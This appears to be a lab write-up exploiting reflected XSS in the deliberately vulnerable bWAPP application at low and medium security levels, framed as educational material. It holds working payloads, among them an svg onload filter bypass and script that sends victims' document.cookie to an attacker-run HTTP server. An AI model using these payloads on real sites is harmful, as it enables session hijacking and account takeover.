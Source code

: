 # Reflected XSS (GET)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](WRITEUP.en.md)
- 🇷🇺 [Русский](WRITEUP.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***Cross-Site Scripting (XSS) vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low
- Medium

# Target
---

![[images/XssReflectedTarget.png]]

# Functionality
---

![[images/XssReflectedFunction.png]]

# Exploitation (phase 1)
---

Testing for Reflected XSS by passing a simple XSS payload in the `lastname` field through BurpSuite or directly on the client side:

#### Payload (Security level - low)

```HTML
<script>alert("Basic XSS")</script>
```

## BurpSuite

![[images/XssReflectedGetBurp.png]]

## Browser

![[images/XssReflectedBrowser.png]]

## Result

![[images/XssReflectedSuccess.png]]

The application is vulnerable to Reflected XSS. This vulnerability can be used to steal cookies of other users.

Note: For `medium` and `high` security levels in BWAPP, the payloads will differ due to implemented security measures.

## Exploitation (Phase 2)
---

An HTTP server can be set up using Python with the command:

```Bash
python3 -m http.server "port"
```

I didn't specify the port, and the server started on port `8000`.

When a user visits a URL with this payload embedded:

```HTML
<script> var pic = new Image(); pic.src = "http://0.0.0.0:8000/steal.php?cookie=" + document.cookie; </script>
```

Their cookies will be sent to the HTTP server running on port `8000`.

Visiting the URL as the default `bee/bug` user resulted in successful cookie theft:

![[images/XssReflectedCookieTheftTest.png]]
(PHPSESSID contains a token used for user authentication)

Now let's simulate victim interaction:

![[images/XssReflectedMamont1.png]]

I created a victim user and used their credentials to log into BWAPP.

Once the victim follows the malicious link (which in the real world is typically provided through social engineering methods), the cookie value is sent to the attacker's server:

![[images/XssReflectedMamont2.png]]

It worked! The `Mamont` user's cookies were successfully compromised without their knowledge:

![[images/XssReflectedMamontCookie.png]]
(For clearer output, I restarted the server instance)

## Medium-level Approach
---

BWAPP at `medium` security level implements defense measures against basic XSS payloads:

```HTML
<script>alert("Basic XSS")</script>
```

However, the `svg`-based payload bypasses the filters, resulting in successful code execution:

```HTML
<svg onload=alert(1)>
```

### Medium-level cookie theft payload

This payload is similar to the low-level approach but uses `svg`:

```HTML
<svg xmlns="http://www.w3.org/2000/svg" onload="var pic=new Image(); pic.src='http://0.0.0.0:8000/steal.php?cookie=' + document.cookie;">
</svg>
```
